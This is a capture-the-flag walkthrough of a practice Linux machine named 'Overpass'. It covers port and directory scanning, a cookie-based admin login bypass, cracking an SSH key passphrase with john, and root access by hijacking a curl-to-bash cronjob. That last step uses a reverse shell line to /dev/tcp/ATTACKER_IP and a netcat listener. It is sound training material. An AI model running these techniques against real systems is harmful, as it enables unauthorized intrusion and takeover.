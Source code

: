 ```yaml
---
title: "Overpass"
tags:
  - Easy
  - Linux
  - nmap
  - john
---
```


| Difficulty |  |  IP Address   |  |
| :--------: |--|:------------: |--|
|    Easy    |  | 10.10.138.135 |  |

---

First, I ran a basic `nmap` scan to enumerate the services that are running on the target machine.

```
sudo nmap -sC -sV -vv 10.10.138.135
```

 **Results:**

![screenshot1](../assets/images/overpass/screenshot1.png)

From the results, we can see that there are two open ports: **SSH (22)** and **HTTP (80)**.

Navigating to the HTTP website, we can see the following page:

![screenshot2](../assets/images/overpass/screenshot2.png)

Looks like the home page for a password manager called 'Overpass'.

Before carrying out our happy-path enumeration, let's use `gobuster` to see if we can enumerate any hidden directories:

```
gobuster dir -u http://10.10.138.135/ -x php,js,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Note that I made sure to check for common extensions such as .php in the scan.

With Gobuster up and running, we can start exploring the page.

The first thing I did was to check the source code of the home page. Doing so, I noticed an interesting comment that was left behind by one of the web developers:

![screenshot3](../assets/images/overpass/screenshot3.png)

This seems to imply that their 'military grade cryptography' is actually one that was used by Romans. Furthermore, it doesn't seem to be very secure by the looks of it. Could it be the Caesar Cipher? Let's keep this in mind for now!

Next, on the 'Downloads' page, there are some files that we can download.

![screenshot4](../assets/images/overpass/screenshot4.png)

Before looking at those files, let's check on the results of Gobuster:

![screenshot5](../assets/images/overpass/screenshot5.png)

Nice, looks like Gobuster has managed to find an interesting javascript file: **login.js**. 

It has also found an admininistrator login page at **/admin**:

![screenshot6](../assets/images/overpass/screenshot6.png)

I tried some basic SQL injections but they did not work. However, I realized that the login functionality was actually exposed in the **login.js** file that was enumerated by Gobuster earlier: 

![screenshot7](../assets/images/overpass/screenshot7.png)

Looking more closely at the `login()` function, it seems that the credentials that are inputted at the login screen are sent in a POST request to an endpoint '/api/login'. The response is then stored in a variable 'statusOrCookie'. There is then a check to verify whether the user is authenticated or not. 

However, looking at the else statement which authenticates the user, if we simply create a **'SessionToken'** cookie and set any random value,  we will be redirected to the /admin page!

Let's test this out using the browser's developer tools. In there, I created a cookie called 'SessionToken' and assigned a random value to it:

![screenshot8](../assets/images/overpass/screenshot8.png)

Upon refreshing the page, we can see that we have been authenticated and have gained access into the administrator area:

![screenshot9](../assets/images/overpass/screenshot9.png)

There is a message along with an RSA private key. This key will probably be used to log into the SSH server that is also running on the machine. The username that uses this key could also be **james**, as he is mentioned explicitly in the message.

Let's copy this private key and try to ssh into the machine.

![screenshot10](../assets/images/overpass/screenshot10.png)

Unfortunately we need a passphrase. We can try cracking the passphrase using `john`, which is a powerful hash cracking tool. 

First, we convert the key into a format that can be cracked by `john`. To do so, we use an auxiliary tool called `ssh2john`:

```
python /usr/share/john/ssh2john.py key_rsa > key_rsa.hash 
```

Next, we use `john` on the output file from the previous command:

```
john --wordlist=/usr/share/wordlists/rockyou.txt key_rsa.hash
```

**Results**

![screenshot11](../assets/images/overpass/screenshot11.png)

Nice, `john` manages to crack james' private key passphrase:

> james13 

With that, we can log into the SSH server.

![screenshot12](../assets/images/overpass/screenshot12.png)

Now that we're logged in, we can obtain the user flag from james' home directory.

---

Next, let's find a way to escalate our privileges. 

I noticed that there was a **todo.txt** file located in james' home directory:

![screenshot13](../assets/images/overpass/screenshot13.png)

It seems that james' password is stored in the password manager (Overpass) that he implemented. I used the `find` command to locate the Overpass binary on the target machine:

```
find / -name overpass 2>/dev/null
```

The binary was found in **/usr/bin/overpass**.

I executed the binary and managed to obtain james's password by using the 'Retrieve All Passwords' option:

![screenshot14](../assets/images/overpass/screenshot14.png)

james' password is: 

> saydrawnlyingpicture

Next, let's see what **sudo privileges** james has on this machine:

![screenshot15](../assets/images/overpass/screenshot15.png)

Uh oh, looks like james does not have any sudo privileges at all. We'll need to find another privesc method.

To automate the privesc enumeration, I'll be using [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), which is a privilege escalation automation script. After running the script, LinPEAS managed to find an interesting cronjob:

![screenshot16](../assets/images/overpass/screenshot16.png)

---

**Understanding cronjobs**

Below is an example cronjob:

```
* * * * * root rm /home/someuser/tmp*
```

The `*` symbols indictate the frequency of the cronjob. The name placed after the symbols refers to the user that will run the job. Finally, the command to be run will be placed after that. In the case of the example above, the `rm /home/someuser/tmp/*` command will be run by root every minute (as shown by 5 `*` symbols).

---

How about the cronjob that was found by LinPEAS?

![screenshot18](../assets/images/overpass/screenshot18.png)

This cronjob curls a 'buildscript.sh' file from 'overpass.thm/downloads/src' every minute and pipes it over to `bash`, which will execute it. The important thing to note is that this command is executed by the root user. 

We can exploit this by creating our own buildscript.sh file, which sets up a reverse shell that connects back to our local machine. We then ensure that when the target machine connects to 'overpass.thm', it is actually connecting to us. Then, when our buildscript.sh file is downloaded and executed by the target machine, it will be executed by root, hence opening a root reverse shell.

Let's set this up!

First, I needed to know what IP address 'overpass.thm' pointed to. Looking at the /etc/hosts file on the target machine, we actually see that 'overpass.thm' points to localhost:

![screenshot19](../assets/images/overpass/screenshot19.png)

I changed the IP address associated with this domain to my own IP address. Now, every time a request is made to 'overpass.thm', the target machine will check the /etc/hosts file and direct the request to my machine instead.

Next, I created a bash script called 'buildscript.sh' with the following command inside:

```
bash -i >& /dev/tcp/ATTACKER_IP/8080 0>&1
```

This is a basic reverse shell command that makes a connection back to port 8080 of my local machine.

I placed this script inside a '/downloads/src' directory within my machine. I then started up a Simple HTTP Server on port 80 using Python.

Finally, I set up a netcat listener on port 8080 using the command:

```
nc -lvnp 8080
```

After a minute has passed, we can see that my buildscript.sh file was indeed downloaded by the target machine:

![screenshot20](../assets/images/overpass/screenshot20.png)

It was then executed, successfully opening the reverse shell:

![screenshot21](../assets/images/overpass/screenshot21.png)

With that, we've gained access to the target machine as root!

We can then obtain the root flag found in /root.

